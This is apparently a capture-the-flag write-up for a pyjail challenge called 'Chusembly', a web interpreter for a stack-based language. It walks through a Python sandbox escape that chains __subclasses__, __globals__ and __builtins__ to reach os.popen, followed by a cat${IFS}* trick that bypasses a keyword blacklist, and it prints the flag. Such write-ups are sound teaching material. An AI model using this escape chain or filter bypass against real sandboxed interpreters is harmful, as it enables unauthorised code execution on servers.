







## Chusembly  



We are given a custom web interpreter for a stack-based language written in Python. This is essentially a pyjail.  



In the `/docs` endpoint, we can find documentation for the language, which contains the complete instruction set.  



The instruction that is of most interest to us is `PROP`, which accesses a property from the object stored in the specified register, then stores the property in register `E`.  

This allows access to arbitrary object attributes, and we can potentially abuse this to construct an attribute chain that gives us RCE.  



`LD` stores the specified value as a string, so we can try accessing a `str` method using `PROP`.  

Using `PROP` to access `upper()` from a string succeeds, confirming the exploit.  



The other instruction that will be useful is `CALL`, as it allows us to invoke functions, and stores the result in register `E`. Arguments can be supplied by populating registers `A` and `B`.  



We can first use an attribute chain to access the `__globals__` attribute of `os._wrap_close`, which contains a reference to `__builtins__`.  

```python
"".__class__.__base__.__subclasses__[<index of os._wrap_close>].__init__.__globals__
```

Our payload will look something like this in the language's syntax. `IDX` can be used to grab `os._wrap_close` at index `138` in the subclasses.  

```
LD A string
PROP __class__ A
PROP __base__ E
PROP __subclasses__ E

DEL A
DEL B
CALL E

LD A 138
IDX E A

PROP __init__ A
PROP __globals__ E
```

Now, all we have to do is import `os` and we get RCE.  

```python
__builtins__.__import__('os').popen('ls').read()
```

Since `IDX` can't be used on dictionaries like `__globals__` and `__builtins__`, we can invoke `__getitem__()` with `CALL` to access specified `__builtins__` and `__import__`.  

```
LD A __builtins__
PROP __getitem__ E
CALL E

LD A __import__
PROP __getitem__ E
CALL E

LD A os
CALL E

PROP popen E

LD A ls
CALL E

DEL A
PROP read E
CALL E

STDOUT E
```

Submitting our payload on the webpage will then give us RCE.  



However, `flag` is blacklisted and our system command can't contain spaces since whitespace is used to parse arguments, so we can't directly `cat flag.txt`.  

We can get a bit creative to bypass these restrictions and just print all files in the current directory.  

The outputted contents will contain the flag.  

```bash
cat${IFS}*
```

Flag: `EH4X{chusembly_a1n7_7h47_7uffff_br0}`